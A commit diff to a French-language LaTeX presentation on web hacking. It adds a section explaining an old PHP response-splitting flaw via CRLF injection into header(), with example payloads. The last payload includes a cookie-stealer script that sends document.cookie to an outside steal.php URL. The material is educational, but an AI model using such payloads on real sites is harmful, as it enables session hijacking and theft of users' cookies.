

Before and after one commit to JustalK/Hacking, a LaTeX document (presentation.tex): part of page 36 of 36 before the commit and two parts of pages 38 and 39 of 39 after it, the two joined at a grey line, cut at the place of the change, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

```diff
--- a/presentation.tex
+++ b/presentation.tex
@@ -927,6 +995,53 @@
 
 tempnam(),rmdir(),readlink(),pcntl\_exec(),move\_uploaded\_file()\\
 
+\newpage
+\section{Les anciennes failles}
+\subsection{HTML Splitting}
+
+Cette faille qui existait dans les vielles version de php n'est actuellement plus possible. Elle touchait principalement la fonction header. Cette fonction via l'injection de CRLF permettait d'ajouter des requêtes HTML dans des requêtes HTML. Le principe est le suivant :
+\vspace{0.2cm}\\
+\fbox{\parbox{\textwidth}{
+header("Location: \$\_GET['page'];");
+}}
+\vspace{0.2cm}
+
+Cette fonction redirigeait l'utilisateur via une requete qui contenait la chaine entré par l'utilisateur. La requete alors perçu par le serveur était la suivante avec le lien suivant :\\
+www.latsuj.com?page=www.latsuj.com
+\vspace{0.2cm}\\
+\fbox{\parbox{\textwidth}{
+HTTP/1.x 302 Found\\
+Location: www.latsuj.com
+}}
+\vspace{0.2cm}
+
+Maintenant l'absence de filtre de CRLF permettait de rentrer de nouveau élément dans la requête comme ci-dessous avec le lien suivant :\\
+www.latsuj.com?page=www.latsuj.com\textbackslash r\textbackslash nContent-Length: 0
+\vspace{0.2cm}\\
+\fbox{\parbox{\textwidth}{
+HTTP/1.x 302 Found\\
+Location: www.latsuj.com\\
+Content-Length: 0
+}}
+\vspace{0.2cm}
+
+Comme on peux le voir ci-dessus, on a réussi à incorporé un élément à la requête. En allant encore une plus loin, il est possible de recréer complètement une requête dans cette dernière. En poussant ainsi le vice, il est possible d'utiliser les failles XSS, les attaques CSRF ou encore les caches poisonning. L'éventail d'attaque est important. Je vais tout de même donner un petit exemple avec l'emploi d'un cookie stealer :
+\vspace{0.2cm}\\
+\fbox{\parbox{\textwidth}{
+HTTP/1.1 302 Found\\
+Location:\textbackslash r\textbackslash n\\
+Content-Length: 0\textbackslash r\textbackslash n\\
+\textbackslash r\textbackslash n\\
+HTTP/1.1 200 OK\textbackslash r\textbackslash n\\
+Content-Type: text/html\textbackslash r\textbackslash n\\
+Content-Length: 200\textbackslash r\textbackslash n\\
+\textbackslash r\textbackslash n\\
+<script>\\
+document.location="http://www.lastuj.com/steal.php?cookie=" document.cookie;\\
+</script>
+}}
+\vspace{0.2cm}
+
 
 \newpage
 \section{Bibliographie}
```
Also changed, not shown: presentation.pdf, sql1.png (added), sql2.png (added), sql3.png (added), sql4.png (added), sql5.png (added), sql6.png (added), sql7.png (added), sql8.png (added), presentation.tex (76 more changed lines), 4 other files.
